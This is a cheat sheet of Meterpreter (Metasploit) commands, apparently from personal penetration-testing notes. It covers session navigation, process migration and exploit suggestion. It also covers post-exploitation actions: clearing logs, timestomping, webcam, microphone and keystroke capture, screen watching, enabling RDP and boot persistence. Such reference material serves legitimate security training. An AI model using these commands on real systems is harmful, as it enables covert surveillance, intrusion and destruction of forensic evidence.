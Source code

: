 # Common meterpreter commands - msfconsole

[Go back](../metasploit.md#meterpreter)

<div class="row row-cols-md-2"><div>

#### Linux-like commands

You can use many Linux-like commands such as:

```shell!
meterpreter> ls # list files
meterpreter> cd # move
meterpreter> pwd # path to current folder
meterpreter> cat file # print file
meterpreter> edit file # open file in vim
meterpreter> ps # see running processes
meterpreter> exit
```

#### Local commands

You can run commands on your machine in the meterpreter:

```shell!
meterpreter> lpwd # or getlwd, local path
meterpreter> lcd path # move to local path
meterpreter> lls path # list local files
meterpreter> lcat file # print local file
```
</div><div>

#### Common utilities

These are new convenient functions that were added:

```shell!
meterpreter> search -f pattern # search file by pattern
meterpreter> search -f pattern / # search inside /
meterpreter> download remote_path local_path # download
meterpreter> upload local_path remote_path # upload
```
</div></div>

<hr class="sep-both">

## Common commands for exploitation 💥

<div class="row row-cols-md-2"><div>

* ➡️ See if you are root and your privileges

```shell!
meterpreter> getuid
Windows: NT AUTHORITY\SYSTEM
```

* ➡️ Learn more about the system. Here with Windows, you could look for CVEs given the build version. The architecture can help too, as some scripts are less useful on some architectures.

```shell!
meterpreter> sysinfo
Computer        : XXX-PC
OS              : Windows X (... Build xxx...).
Architecture    : x64
```

* ➡️ Start a shell: `sh/bash` on Linux, `cmd` on Windows

```shell!
meterpreter> shell # start a shell
C:\WINDOWS\system32> # Windows cmd
```
</div><div>

* ➡️ Ask for suggested exploits

```shell!
meterpreter> run post/multi/recon/local_exploit_suggester
```

* ➡️ Load a local file `commands.txt` with meterpreter commands

```shell!
meterpreter> resource commands.txt
```

* ➡️ 📝 Migrate to another process 📝. This is something as some services/stuff need us to be "in" a process that has the same architecture, and the same permissions, that our target. **Usually**, any process run by "NT AUTHORITY\SYSTEM"/root should be okay, although you may have to try a few times.

```shell!
meterpreter> ps # list process
meterpreter> migrate process_pid # move to another process
meterpreter> migrate -N process_name # same
meterpreter> # most used ones
meterpreter> migrate -N spoolsv.exe # can restart so good
meterpreter> migrate -N explorer.exe # screenshots...
```
</div></div>

<hr class="sep-both">

## Common commands for post-exploitation ✈️

<div class="row row-cols-md-2 mt-4"><div>

* ➡️ | `root`. Clear logs

```shell!
meterpreter> clearev
```

* ➡️  | `root`. Mess with timestamp to complicate forensics

```shell!
meterpreter> timestomp
```

* ➡️ Random commands

```shell!
meterpreter> idletime # time the host was idle
meterpreter> ipconfig # network information
meterpreter> localtime # time and date
meterpreter> getenv PATH # get PATH
meterpreter> checksum <file> # get file checksum
```
</div><div>

All the commands below require administrative/root privileges.

<details class="details-e">
<summary>Take control of the webcam</summary>

```shell!
meterpreter> webcam_list
meterpreter> webcam_snap
```
</details>

<details class="details-e">
<summary>Take a screenshot</summary>

```shell!
meterpreter> migrate -N explorer.exe
meterpreter> use espia
meterpreter> screengrab
```

You may also use `screenshot` 📌.
</details>

<details class="details-e">
<summary>Install a keylogger</summary>

```shell!
meterpreter> migrate -N explorer.exe
meterpreter> keyscan_start # start
meterpreter> keyscan_dump # dump keys
```
</details>

<details class="details-e">
<summary>Watch the screen in real time</summary>

Watch the remote user desktop in real time

```shell!
meterpreter> screenshare
meterpreter> record_mic # Record audio from the default microphone for X seconds
```
</details>

<details class="details-e">
<summary>Record microphone</summary>

Record audio from the default microphone for X seconds

```shell!
meterpreter> record_mic
```
</details>

<details class="details-e">
<summary>Enable Remote Desktop Protocol</summary>

```shell!
meterpreter> run post/windows/manage/enable_rdp
```
</details>

<details class="details-e">
<summary>Persistence</summary>

See [METERPRETER SERVICE](https://www.offensive-security.com/metasploit-unleashed/meterpreter-service/).

```shell!
meterpreter> # Automatically start the agent when the system boots
meterpreter> run persistence -X
```
</details>
</div></div>